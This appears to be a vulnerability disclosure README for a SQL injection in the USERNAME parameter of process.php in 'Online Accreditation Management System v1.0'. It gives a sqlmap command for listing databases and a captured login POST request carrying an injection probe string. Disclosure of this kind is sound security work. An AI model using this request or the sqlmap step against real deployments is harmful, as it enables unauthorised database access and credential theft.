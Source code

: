 # Online-Accreditation-Management-System-v1.0-SQLi
**[Online Accreditation Management System v1.0 - SQLi](https://itsourcecode.com/free-projects/php-project/online-accreditation-management-system-in-php-with-source-code/)**
---

[Vendor](https://itsourcecode.com/author/adonesevangelista/)
---

![image-20220527131251530](png01.png)


### Description:

---

The vulnerability page is ```process.php```

```http://your-ip/AccreditationSystem/```


Online Accreditation Management System v1.0  

The ```USERNAME``` parameter in the ```process.php``` page appears to be vulnerable to SQL injection attacks.

[+]sqlmap:

Save the POST request package in `1.txt`, and then run the sqlmap

`python sqlmap.py -r 1.txt  --dbs` 

[+]POST request package

```
POST /AccreditationSystem/process.php?action=loginagency HTTP/1.1
Host: 10.211.55.3
Content-Length: 40
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.61 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://10.211.55.3
Referer: http://10.211.55.3/AccreditationSystem/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=kc1vvdqjtt94b9i5461cf4s5r2
Connection: close

USERNAME=ff%E9%8E%88%27%22%5C%28&PASS=ff
```


### In action:

---

![image-20220527130708845](png02.png)

![image-20220527131145577](png03.png)


### Proof and Exploit:

---
![image-123](poc.gif)
